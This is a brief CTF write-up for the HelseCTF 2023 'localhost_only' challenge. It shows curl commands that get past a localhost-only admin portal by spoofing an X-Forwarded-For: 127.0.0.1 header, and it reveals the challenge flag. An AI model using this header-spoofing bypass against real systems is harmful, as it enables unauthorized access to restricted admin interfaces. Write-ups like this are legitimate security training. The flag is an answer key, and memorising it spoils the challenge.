 # localhost_only (493)

Adminportalen /admin/ er kun tilgjengelig fra 127.0.0.1

https://helsectf2023-6ac4e1c6d8855c1bd96a-localhost_only.chals.io/

# Writeup

First I tried to use curl to resolve `127.0.0.1` as the servers IP address. So started by getting an IP.. 

```
$ host helsectf2023-6ac4e1c6d8855c1bd96a-localhost_only.chals.io
helsectf2023-6ac4e1c6d8855c1bd96a-localhost_only.chals.io has address 143.244.222.116
helsectf2023-6ac4e1c6d8855c1bd96a-localhost_only.chals.io has address 143.244.222.115
```

I've got a choice of two, lets try one by one.

```
curl --resolve 127.0.0.1:443:143.244.222.116 https://0177.0.0.1/admin/ --insecure -v
curl --resolve 127.0.0.1:443:143.244.222.115 https://127.0.0.1/admin/ --insecure -v
```

Empty response on both IP's. What am I doing wrong here. 

Trying different host headers, nothing works until I get to `X-Forwarded-For`.

```
$ curl https://helsectf2023-6ac4e1c6d8855c1bd96a-localhost_only.chals.io/admin/ --insecure -H 'X-Forwarded-For: 127.0.0.1'
helsectf{x-forwarded-4ever<3}   
```

# Flag

```
helsectf{x-forwarded-4ever<3}
```